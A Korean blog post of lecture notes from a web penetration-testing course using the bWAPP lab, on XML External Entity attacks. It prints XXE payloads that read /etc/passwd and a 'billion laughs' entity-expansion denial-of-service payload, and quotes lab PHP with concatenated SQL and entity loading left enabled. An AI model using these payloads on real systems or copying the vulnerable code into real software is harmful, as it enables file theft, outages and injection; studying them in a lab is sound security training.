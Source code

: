 ```yaml
---
layout: post
title: "비박스를 활용한 웹 모의해킹 완벽 실습 - XML 외부 엔티티 공격"
excerpt_separator:  <!--more-->
categories:
 - WebHack
tags:
  - 웹 해킹
  - 인프런
  - Part7 A7
  - 기능 수준의 접근 통제 누락
---
```


<!--more-->

# 출처

## 인프런, 비박스를 활용한 웹 모의해킹 완벽 실습 22강 <https://www.inflearn.com/course/%EB%B9%84%EB%B0%95%EC%8A%A4-%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9-%EC%8B%A4%EC%8A%B5/>

---

## XML 외부 엔티티 공격

* Input --> Process --> Output의 각 과정의 취약점을 이용

![image](https://user-images.githubusercontent.com/28076542/53409087-72644e80-3a03-11e9-811b-2c68fc438c0d.png)

## XML External Entity Attacks (XXE)

![image](https://user-images.githubusercontent.com/28076542/53409524-73e24680-3a04-11e9-9fdd-cc87b9670da7.png)

### 삽입할 XML 코드

```xml
<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE root [
<!ENTITY bWAPP SYSTEM "file:///etc/passwd"> ]>
<reset><login>&bWAPP;</login><secret>blah</secret></reset>

##############################################################

<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT login (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;"> ]>
<reset><login>&lol9;</login><secret>blah</secret></reset>
```

### Any Bugs?를 누르고 BurpSuite Repeater 실행 후 XML 코드 삽입

```xml
<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE root [
<!ENTITY bWAPP SYSTEM "file:///etc/passwd"> ]>
<reset><login>&bWAPP;</login><secret>blah</secret></reset>
```

![image](https://user-images.githubusercontent.com/28076542/53410010-e9024b80-3a05-11e9-93e6-bfca75e5df4e.png)

```xml
<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT login (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;"> ]>
<reset><login>&lol9;</login><secret>blah</secret></reset>
```

![image](https://user-images.githubusercontent.com/28076542/53410067-14853600-3a06-11e9-977b-ec15901a5236.png)

* **서버 응답이 굉장히 오래 걸림**

### 서버 응답이 느린 이유

* lol1 ~ lol9까지 ENTITY를 생성하다가 마지막 `<reset><login>&lol9;</login><secret>blah</secret></reset>`에서 문제 발생
* 각 ENTITY에서 상위 lol을 호출하여서 DoS 공격을 발생시킴 --> $$10^9$$번 호출

---

### XXE-2.php에서 방어하는 부분

```php
	$login = $xml->login;
	$secret = $xml->secret;

    if($login && $login != "" && $secret)
    {

        // $login = mysqli_real_escape_string($link, $login);
        // $secret = mysqli_real_escape_string($link, $secret);
        
        $sql = "UPDATE users SET secret = '" . $secret . "' WHERE login = '" . $login . "'";

        // Debugging
        // echo $sql;      

        $recordset = $link->query($sql);

        if(!$recordset)
        {

            die("Connect Error: " . $link->error);

        }

        $message = $login . "'s secret has been reset!";

    }
```

```php
else
{

    // Disables XML external entities. Doesn't work with older PHP versions!
    // libxml_disable_entity_loader(true);
    $xml = simplexml_load_string($body);
    
    // Debugging
    // print_r($xml);

    $login = $_SESSION["login"];
    $secret = $xml->secret;
```

> 세션이 그냥 로그인을 가지고 오고 있고 로그인을 가져오기 때문에 시크릿에 대입할 수 없어서 출력 값을 조정할 수 없다. 하지만 내부적으로 다른 동작을 할 수 있다. 따라서 완벽한 방어책은 아니다. 어쨋든 `$login = $xml->login;`에서 `$login = $_SESSION["login"];`으로 어느정도 방어는 한다. 아무튼 XSS처럼 XML 태그를 사용하지 못하게 할만큼 안전한 방법은 아니다.